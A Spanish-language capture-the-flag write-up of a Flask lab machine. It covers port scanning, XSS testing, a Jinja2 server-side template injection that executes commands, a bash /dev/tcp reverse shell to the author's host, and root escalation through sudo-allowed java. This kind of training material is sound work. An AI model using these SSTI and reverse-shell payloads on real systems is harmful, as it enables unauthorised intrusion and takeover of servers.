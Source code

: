 # Info
## IP Víctima
```
172.17.0.2
```

# Writeup
## Reconocimiento
### Escaneo de puertos
En primer lugar, como siempre, lanzamos un escaneo de puertos para identificar los servicios abiertos en sus respectivos puertos:
```shell
❯ nmap -p 0-65535 --open -T5 -A -sT -Pn -n 172.17.0.2 -oX nmapScan.xml && xsltproc nmapScan.xml -o nmapScan.html && open nmapScan.html &>/dev/null & disown
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-01 18:02 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000089s latency).
Not shown: 65535 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
5000/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.12.3)
|_http-title: Pingu Flask Web
|_http-server-header: Werkzeug/3.0.1 Python/3.12.3
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
```
Nos encontramos con un servidor HTTP corriendo en el puerto 5000 sobre Werkzeug 3.0.1 y Python 3.12.3, del escaneo nada más salta a la vista, así que vamos a echarle un vistazo a la página web. Nos encontramos con un formulario de registro que pide los siguientes campos: nombre, cumpleaños, email y teléfono.
![Screenshot](./imgs/Screenshot_2025-09-01_18_12_24.png)
El único campo que hace algún cambio relevante es el de nombre, al clicar en Save te redirige a /greet, donde leemos un mensaje que lee Hola *nombre que hemos puesto en el campo*! 
Con esta información lo que podríamos probar es distintos payloads de XSS o SQLi, mientras tanto dejaré fuzzing trabajando a ver si encuentra alguna ruta interesante.
## Explotación
#### XSS
Con tan solo probar el segundo payload ya vemos que el formulario es efectivamente vulnerable a XSS, al probar esto `<script>alert(1)</script>` en el campo del nombre, nos salta una alerta del navegador, confirmando la vulnerabilidad.
Además, el FFUF ha dado con la ruta /console, pero al tratar de acceder a ella nos solicita un PIN que no tenemos.
![Screenshot](./imgs/Screenshot_2025-09-01_18_25_37.png)
#### SSTI
Después de leer y probar un rato distintas cosas con XSS, finalmente obtengo un error probando payloads de SSTI. Hago las pruebas correspondientes siguiendo las instrucciones de [PayLoadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection): 
1. Ponemos en el input que sospechamos vulnerable un payload comodín que hace saltar un error en la mayoría de ocasiones en casi cualquier template engine. `${{>%[%'"}}%\. ` 
2. Probamos distintos payloads con el fin de obtener el template engine que está corriendo en el servidor web, en este caso, ya con el primer payload `{{7*7}}` sabemos que es Jinja2
3. Con esa información en mente, podemos, con esta línea, ejecutar un comando a nivel de sistema `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`
4. Una vez esa línea nos devuelve el siguiente output *Hello uid=1001(pinguinazo) gid=1001(pinguinazo) groups=1001(pinguinazo),100(users) !* podemos ir a por la reverse shell introduciendo este payload:
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen("bash -c 'bash -i >& /dev/tcp/192.168.1.157/443 0>&1'").read() }}
```

## Post explotación
#### Escalada de privilegios
Al lanzar sudo -l, vemos que el usuario puede ejecutar el binario java con permisos root
```bash
pinguinazo@29a22f0dc193:~/flask_ssti_lab$ sudo -l
sudo -l
Matching Defaults entries for pinguinazo on 29a22f0dc193:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pinguinazo may run the following commands on 29a22f0dc193:
    (ALL) NOPASSWD: /usr/bin/java
```
Ya que en GTFObins no encuentro nada, voy directo a RevShells, de donde saco una reverse shell de java. Desde mi máquina levanto un servidor HTTP con `python3 -m http.sever` y con curl lo descargo desde la otra revshell activa, una vez la shell esta instalada, me pongo en escucha en una nueva terminal y ejecuto el comando como root: `sudo /usr/bin/java rev.java`, cuando tabulo hacia mi otra consola, veo que ya soy root.
```
root@29a22f0dc193:/home/pinguinazo/flask_ssti_lab# whoami
whoami
root
```